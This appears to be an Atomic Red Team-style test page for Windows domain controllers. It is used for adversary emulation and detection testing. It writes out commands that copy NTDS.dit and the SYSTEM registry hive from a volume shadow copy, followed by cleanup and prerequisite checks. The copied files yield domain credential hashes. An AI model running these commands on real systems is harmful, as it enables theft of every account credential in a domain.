 **Supported Platforms:** Windows


**auto_generated_guid:** c6237146-9ea6-4711-85c9-c56d263a6b03





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vsc_name | Name of Volume Shadow Copy | string | &#92;&#92;?&#92;GLOBALROOT&#92;Device&#92;HarddiskVolumeShadowCopy1|
| extract_path | Path for extracted NTDS.dit | path | C:&#92;Windows&#92;Temp|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy #{vsc_name}\Windows\NTDS\NTDS.dit #{extract_path}\ntds.dit
copy #{vsc_name}\Windows\System32\config\SYSTEM #{extract_path}\VSC_SYSTEM_HIVE
reg save HKLM\SYSTEM #{extract_path}\SYSTEM_HIVE
```

#### Cleanup Commands:
```cmd
del "#{extract_path}\ntds.dit"        >nul 2> nul
del "#{extract_path}\VSC_SYSTEM_HIVE" >nul 2> nul
del "#{extract_path}\SYSTEM_HIVE"     >nul 2> nul
```



#### Dependencies:  Run with `command_prompt`!
##### Description: Target must be a Domain Controller
##### Check Prereq Commands:
```cmd
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT
```
##### Get Prereq Commands:
```cmd
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```
##### Description: Volume shadow copy must exist
##### Check Prereq Commands:
```cmd
if not exist #{vsc_name} (exit /b 1)
```
##### Get Prereq Commands:
```cmd
echo Run "Invoke-AtomicTest T1003.003 -TestName 'Create Volume Shadow Copy with vssadmin'" to fulfill this requirement
```
##### Description: Extract path must exist
##### Check Prereq Commands:
```cmd
if not exist #{extract_path} (exit /b 1)
```
##### Get Prereq Commands:
```cmd
mkdir #{extract_path}
```
